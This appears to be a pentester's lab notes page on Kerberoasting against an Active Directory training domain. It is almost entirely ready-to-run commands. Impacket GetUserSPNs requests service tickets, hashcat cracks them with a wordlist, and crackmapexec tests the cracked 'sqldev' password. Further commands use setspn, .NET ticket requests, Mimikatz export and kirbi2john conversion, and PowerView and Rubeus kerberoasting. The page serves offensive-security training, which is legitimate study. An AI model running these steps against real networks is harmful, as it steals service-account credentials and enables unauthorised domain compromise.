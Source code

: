 # Kerberoasting

### Kerberoasting Overview

* This attack targets Service Principal Names (SPNs) accounts.
  * [purpose-of-service-principal-names-spn-in-active-directory.md](../blog/purpose-of-service-principal-names-spn-in-active-directory.md "mention")
    * SPNs are unique identifiers that Kerberos uses to map a service instance to a service account in whose context the service is running
      * Domain accounts are often used to run services to overcome the network authentication limitations of built-in accounts such as `NT AUTHORITY\LOCAL SERVICE`.

### Kerberoasting - Performing the Attack

* Depending on your position in a network, this attack can be performed in multiple ways:
  * From a non-domain joined Linux host using valid domain user credentials.
  * From a domain-joined Linux host as root after retrieving the keytab file.
  * From a domain-joined Windows host authenticated as a domain user.
  * From a domain-joined Windows host with a shell in the context of a domain account.
  * As SYSTEM on a domain-joined Windows host.
  * From a non-domain joined Windows host using [runas](https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2012-r2-and-2012/cc771525\(v=ws.11\)) /netonly.

## Kerberoasting - from Linux

### Kerberoasting with GetUserSPNs.py

```shell-session
GetUserSPNs.py -dc-ip 172.16.5.5 INLANEFREIGHT.LOCAL/forend
```



<figure><img src="../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>



### Requesting all TGS Tickets

```shell-session
GetUserSPNs.py -dc-ip 172.16.5.5 INLANEFREIGHT.LOCAL/forend -request 
```



<figure><img src="../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Requesting a Single TGS ticket

```shell-session
GetUserSPNs.py -dc-ip 172.16.5.5 INLANEFREIGHT.LOCAL/forend -request-user sqldev
```

#### Cracking the Ticket Offline with Hashcat

* crack with [hashcat.md](hashcat.md "mention")



```shell-session
hashcat -m 13100 sqldev_tgs /usr/share/wordlists/rockyou.txt 
```

* password is database!

**Testing Authentication against a Domain Controller**

* [crackmapexec.md](crackmapexec.md "mention")

```shell-session
sudo crackmapexec smb 172.16.5.5 -u sqldev -p database!
```

## Kerberoasting - from Windows

### Manual way

#### Enumerating SPNs with setspn.executes

```cmd-session
setspn.exe -Q */*
```

#### Targeting a Single User

```powershell-session
Add-Type -AssemblyName System.IdentityModel
```

```powershell-session
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "MSSQLSvc/DEV-PRE-SQL.inlanefreight.local:1433"
```

* The [Add-Type](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.utility/add-type?view=powershell-7.2) cmdlet is used to add a .NET framework class to our PowerShell session, which can then be instantiated like any .NET framework object
* The `-AssemblyName` parameter allows us to specify an assembly that contains types that we are interested in using
* [System.IdentityModel](https://docs.microsoft.com/en-us/dotnet/api/system.identitymodel?view=netframework-4.8) is a namespace that contains different classes for building security token services
* We'll then use the [New-Object](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.utility/new-object?view=powershell-7.2) cmdlet to create an instance of a .NET Framework object
* We'll use the [System.IdentityModel.Tokens](https://docs.microsoft.com/en-us/dotnet/api/system.identitymodel.tokens?view=netframework-4.8) namespace with the [KerberosRequestorSecurityToken](https://docs.microsoft.com/en-us/dotnet/api/system.identitymodel.tokens.kerberosrequestorsecuritytoken?view=netframework-4.8) class to create a security token and pass the SPN name to the class to request a Kerberos TGS ticket for the target account in our current logon session

#### Retrieving All Tickets Using setspn.exe

```powershell-session
setspn.exe -T INLANEFREIGHT.LOCAL -Q */* | Select-String '^CN' -Context 0,1 | % { New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList $_.Context.PostContext[0].Trim() }
```

#### Extracting Tickets from Memory with Mimikatz



* [mimikatz.md](mimikatz.md "mention")

```cmd-session
mimikatz # base64 /out:true
```

```cmd-session
mimikatz # kerberos::list /export  
```

```shell-session
echo "<base64 blob>" |  tr -d \\n 
```

```shell-session
cat encoded_file | base64 -d > sqldev.kirbi
```

```shell-session
kirbi2john.py sqldev.kirbi
```

```shell-session
sed 's/\$krb5tgs\$\(.*\):\(.*\)/\$krb5tgs\$23\$\*\1\*\$\2/' crack_file > sqldev_tgs_hashcat
```

* [hashcat.md](hashcat.md "mention")

```shell-session
hashcat -m 13100 sqldev_tgs_hashcat /usr/share/wordlists/rockyou.txt 
```

### Automated / Tool Based Route

#### Using PowerView to Extract TGS Tickets

```powershell-session
Import-Module .\PowerView.ps1
```

```powershell-session
Get-DomainUser * -spn | select samaccountname
```

#### Using PowerView to Target a Specific User

```powershell-session
Get-DomainUser -Identity sqldev | Get-DomainSPNTicket -Format Hashcat
```

#### Exporting All Tickets to a CSV File

```powershell-session
Get-DomainUser * -SPN | Get-DomainSPNTicket -Format Hashcat | Export-Csv .\ilfreight_tgs.csv -NoTypeInformation
```

#### Using Rubeus

```powershell-session
.\Rubeus.exe kerberoast /stats
```

```powershell-session
 .\Rubeus.exe kerberoast /ldapfilter:'admincount=1' /nowrap
```

#### Using the /tgtdeleg Flag

<figure><img src="../.gitbook/assets/image (3) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

* `/tgtdeleg` flag, the tool requested an RC4 ticket even though the supported encryption types are listed as AES 128/256

## Reference

* https://adsecurity.org/?p=3458
